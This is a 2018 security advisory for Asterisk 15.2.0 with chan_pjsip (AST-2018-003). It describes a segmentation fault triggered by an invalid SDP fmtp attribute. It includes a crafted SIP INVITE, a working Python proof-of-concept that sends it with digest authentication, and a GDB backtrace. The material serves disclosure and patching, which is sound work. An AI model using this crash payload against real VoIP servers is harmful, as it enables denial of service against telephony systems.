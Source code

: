 # Segmentation fault occurs in asterisk with an invalid SDP fmtp attribute

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Latest vulnerable version: Asterisk 15.2.0 running `chan_pjsip`
- References: AST-2018-003
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-02-asterisk-pjsip-sdp-invalid-fmtp-segfault/>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2018-003.html>
- Timeline:
    - Issue reported to vendor: 2018-01-15
    - Vendor patch made available to us: 2018-02-05
    - Vendor advisory published: 2018-02-21
    - Enable Security advisory: 2018-02-22


## Description

A specially crafted SDP message body with an invalid fmtp attribute causes a
segmentation fault in asterisk using chan_pjsip.


## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when
`chan_pjsip` is in use.


## How to reproduce the issue

The following SIP message was used to reproduce the issue:

```
INVITE sip:5678@127.0.0.1:5060 SIP/2.0
To: <sip:5678@127.0.0.1:5060>
From: Test <sip:5678@127.0.0.1:5060>
Call-ID: adc9caea-2d0a-40af-9de5-1dd21387e03a
CSeq: 2 INVITE
Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bKadc9caea-2d0a-40af-9de5-1dd21387e03a
Contact: <sip:5678@172.17.0.1>
Content-Type: application/sdp
Content-Length: 228

v=0
o=- 1061502179 1061502179 IN IP4 172.17.0.1
s=Asterisk
c=IN IP4 172.17.0.1
t=0 0
m=audio 17000 RTP/AVP 9 0 101
a=rtpmap:8 alaw/8000
a=rtpmap:0 PCMU/8000
a=rtpmap:101 telephone-event/8000
a=fmtp\x00:101 0-16
a=sendrecv
```

Notes: 

- `\x00` should be replaced by the null character
- authentication may be required 
- the destination SIP address should match a valid extension in the dialplan.

To facilitate this process we wrote the following python program to reproduce this issue:

```python
import socket
import re
import md5
import uuid

SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060
UDP_IP = "0.0.0.0"
UDP_PORT = 13940
USERNAME = "5678"
PASSWORD = "5678"
INVITE_USERNAME = "5678"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind((UDP_IP, UDP_PORT))

callid = str(uuid.uuid4())

sdpbody = "v=0\r\no=- 1061502179 1061502179 IN IP4 172.17.0.1\r\n" \
    "s=Asterisk\r\n" \
    "c=IN IP4 172.17.0.1\r\n" \
    "t=0 0\r\n" \
    "m=audio 17000 RTP/AVP 9 0 101\r\n" \
    "a=rtpmap:8 alaw/8000\r\n" \
    "a=rtpmap:0 PCMU/8000\r\n" \
    "a=rtpmap:101 telephone-event/8000\r\n" \
    "a=fmtp\x00:101 0-16\r\n"\
    "a=sendrecv"

msg="INVITE sip:%s@%s:%i SIP/2.0\r\n" \
    "To: <sip:%s@%s:%i>\r\n" \
    "From: Test <sip:%s@%s:%s>\r\n" \
    "Call-ID: %s\r\n" \
    "CSeq: 2 INVITE\r\n" \
    "Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK%s\r\n" \
    "Contact: <sip:%s@172.17.0.1>\r\n" \
    "Content-Type: application/sdp\r\n" \
    "{{AUTH}}" \
    "Content-Length: %i\r\n" \
    "\r\n" % (
        INVITE_USERNAME, SERVER_IP, SERVER_PORT,
        INVITE_USERNAME, SERVER_IP, SERVER_PORT,
        USERNAME, SERVER_IP, SERVER_PORT,
        callid, callid,
        USERNAME, len(sdpbody)
        ) + \
    sdpbody

sock.sendto(msg.replace("{{AUTH}}", ""), (SERVER_IP, SERVER_PORT))

data, addr = sock.recvfrom(10240)

if data.startswith("SIP/2.0 401"):
    for line in data.split('\r\n'):
        if line.startswith("WWW-Authenticate"):
            content = line.split(':', 2)[1].strip()
            realm = re.search("realm=\"([a-z]+)\"", content).group(1)
            nonce = re.search("nonce=\"([a-z0-9\/]+)\"", content).group(1)
            ha1 = md5.new(USERNAME + ":" + realm + ":" + PASSWORD).hexdigest()
            uri = "sip:%s:%i" % (SERVER_IP, SERVER_PORT)
            ha2 = md5.new("INVITE:" + uri).hexdigest()
            r = md5.new(ha1 + ":" + nonce + ":" + ha2).hexdigest()

            auth = "Authorization: Digest username=\"%s\"," % (USERNAME) + \
                "realm=\"%s\"," % (realm) + \
                "nonce=\"%s\"," % (nonce) + \
                "uri=\"%s\"," % (uri) + \
                "response=\"%s\"," % (r) + \
                "algorithm=md5\r\n"

sock.sendto(msg.replace("{{AUTH}}", auth), (SERVER_IP, SERVER_PORT))
```

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

### GDB backtrace result

```
Thread 197 "asterisk" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7fff65e57700 (LWP 10595)]
pjmedia_sdp_attr_get_fmtp (attr=<optimized out>, fmtp=fmtp@entry=0x7fff65e56430) at ../src/pjmedia/sdp.c:350
350	    while (pj_isdigit(*p) && p!=end)
(gdb) bt
#0  pjmedia_sdp_attr_get_fmtp (attr=<optimized out>, fmtp=fmtp@entry=0x7fff65e56430) at ../src/pjmedia/sdp.c:350
#1  0x00007fff6bf49070 in get_codecs (session_media=0x7fff74799540, codecs=0x7fff65e56450, stream=0x7fff97f99de0, session=0x7fff74581688) at res_pjsip_sdp_rtp.c:276
#2  set_caps (session=session@entry=0x7fff74581688, session_media=session_media@entry=0x7fff74799540, session_media_transport=0x7fff74799540, stream=stream@entry=0x7fff97f99de0, is_offer=is_offer@entry=1, asterisk_stream=asterisk_stream@entry=0x7fff747a03b0)
    at res_pjsip_sdp_rtp.c:352
#3  0x00007fff6bf4b2d7 in negotiate_incoming_sdp_stream (session=0x7fff74581688, session_media=0x7fff74799540, sdp=<optimized out>, index=<optimized out>, asterisk_stream=0x7fff747a03b0) at res_pjsip_sdp_rtp.c:1185
#4  0x00007ffff1a16bb9 in handle_incoming_sdp (session=session@entry=0x7fff74581688, sdp=0x7fff97f99870) at res_pjsip_session.c:671
#5  0x00007ffff1a1a721 in new_invite (invite=<synthetic pointer>) at res_pjsip_session.c:2871
#6  handle_new_invite_request (rdata=0x7fff573f88d8) at res_pjsip_session.c:2966
#7  session_on_rx_request (rdata=0x7fff573f88d8) at res_pjsip_session.c:3030
#8  0x00007ffff7868df7 in pjsip_endpt_process_rx_data (endpt=<optimized out>, rdata=rdata@entry=0x7fff573f88d8, p=p@entry=0x7ffff1a0ace0 <param>, p_handled=p_handled@entry=0x7fff65e56d44) at ../src/pjsip/sip_endpoint.c:887
#9  0x00007ffff17e009f in distribute (data=0x7fff573f88d8) at res_pjsip/pjsip_distributor.c:903
#10 0x00000000005fb3be in ast_taskprocessor_execute (tps=tps@entry=0x1dc33a8) at taskprocessor.c:963
#11 0x0000000000602610 in execute_tasks (data=0x1dc33a8) at threadpool.c:1322
#12 0x00000000005fb3be in ast_taskprocessor_execute (tps=0x1a39488) at taskprocessor.c:963
#13 0x0000000000602af0 in threadpool_execute (pool=0x1a37ca8) at threadpool.c:351
#14 worker_active (worker=0x7fff9457ccd8) at threadpool.c:1105
#15 worker_start (arg=arg@entry=0x7fff9457ccd8) at threadpool.c:1024
#16 0x000000000060d4bd in dummy_start (data=<optimized out>) at utils.c:1257
#17 0x00007ffff5e3d6ba in start_thread (arg=0x7fff65e57700) at pthread_create.c:333
#18 0x00007ffff54263dd in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:109
(gdb)

```


## Solutions and recommendations

Apply the patch issued by Asterisk at <http://www.asterisk.org/security> or upgrade to the latest release.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
